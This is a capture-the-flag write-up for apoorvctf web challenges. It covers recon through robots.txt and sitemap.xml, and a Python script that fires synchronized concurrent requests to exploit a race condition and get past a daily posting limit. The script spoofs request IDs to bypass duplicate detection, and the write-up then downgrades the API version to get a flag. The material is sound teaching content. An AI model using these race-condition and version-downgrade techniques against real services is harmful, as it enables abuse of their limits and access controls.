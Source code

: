 # Apoorvctf

1. By `HM`
- https://hackmd.io/@hmmm1337/ryLYSEXskx
    - ArchBTW
    - Blend in Disguise

2. By `Bytecodesky`

# SEO CEO - WEB
They're optimizing SEO to show this garbage?!

> Author: proximuz

[Web chall](https://seo-opal.vercel.app)

At first glance we can not do anything on the page, we do not have any functionality or vulnerability.
Automatically you think of doing reconnaissance, but you can't use automated tools, so you have to do a manual reconnaissance.
we start with the most common of all `/robots.txt`.

and we obtain the following

```
blud really thought itd be that easy
apoorvctf{c0me_0n_mAn_it5_t0o_e4sy}

```
we continue scanning the page, and go to `/sitemap.xml`.

```
<url>
<loc>https://www.thiswebsite.com/goofyahhroute</loc>
<lastmod>2025-02-26</lastmod>
<changefreq>never</changefreq>
<priority>0.0</priority>
</url>
```
and within the whole sitemap we found something interesting, apparently an example page that leads to a certain address, but obviously that domain is not valid, so the directory is a signal.

We enter `/goofyahhroute` and we get this
```
ok bro u da seo master gng frfr ngl no cap
but do you really want the "flag"?
come on blud, it's a yes or no question
yeah?
```

then we can deduce that we must pass the parameter **flag** and as value **yes**.
`/goofyahhroute?flag=yes`
and obtain the flag: `apoorvctf{s30_1snT_0pt1onaL}`

2. By `x.two`

# Blog-1 - Web

### Description

In the digital realm, Blog-1 awaited brave developers. The mission? Craft a captivating blog with enchanting posts, lively comments, and secure user authentication. Create a functional and visually stunning masterpiece. Ready for the Blog-1 adventure?


### Solution

We have basic web page where we can register user and login with it. Exploring menu items, we have option of `Daily Rewards`

[Claim](./images/claim.png)


We can see that we have to write 5 blogs to claim the reward (which is probably our flag). But when we try to write 2 blogs, it tells us that we can only write one blog per day. This suggests that there might be a race condition vulnerability, where we can send multiple concurrent requests.

I used this script to write multiple blogs at once:


```python
import requests
import threading
import time
import uuid

SUCCESS_COUNT = 0
SUCCESS_LOCK = threading.Lock()
BARRIER = threading.Barrier(5)  # Strict synchronization for 5 warriors

def domain_expansion(session):
    global SUCCESS_COUNT
    try:
        # Wait for all threads to reach this point
        BARRIER.wait()
        
        url = "http://chals1.apoorvctf.xyz:5001/api/v1/blog/addBlog"
        headers = {
            "authorization": "Bearer [token]",
            "Content-Type": "application/json",
            "X-Request-ID": str(uuid.uuid4())  # Bypass duplicate request detection
        }
        
        payload = {
            "title": f"Limitless Void {uuid.uuid4().hex[:6]}",  # Unique title each request
            "description": "Cursed Technique: Maximum Output",
            "content": "Domain Expansion: Infinite Void"
        }

        # Surgical strike with precise timing
        response = session.post(
            url,
            headers=headers,
            json=payload,
            timeout=15  # Extended timeout for server processing
        )

        if response.status_code == 201:
            with SUCCESS_LOCK:
                SUCCESS_COUNT += 1
                print(f"Domain expanded! Success #{SUCCESS_COUNT}")
        else:
            print(f"Blocked: {response.status_code} | {response.text}")

    except Exception as e:
        print(f"Curse energy leak: {str(e)}")

if __name__ == "__main__":
    # Create 5 dedicated cursed techniques
    sessions = [requests.Session() for _ in range(5)]
    
    threads = []
    for i in range(5):
        t = threading.Thread(target=domain_expansion, args=(sessions[i],))
        threads.append(t)
        t.start()
        time.sleep(0.001)  # Nanosecond-level stagger
    
    # Wait for all techniques to complete
    for t in threads:
        t.join()
    
    print(f"\nTotal successful domain expansions: {SUCCESS_COUNT}")
    print("If <5, repeat until the barrier breaks!")
```


And we successfully wrote 5 blogs. Visiting `Daily Reward` option sends request to `/api/v2/gift` endpoint which contains this:

[claim2](./images/claim2.png)


This links to a troll youtube video:

https://youtu.be/WePNs-G7puA?si=DOUFW9vAgUKdClxX


But changing the endpoint back to `/api/v1/gift` gives us our flag:

apoorvctf{s1gm@_s1gm@_b0y}
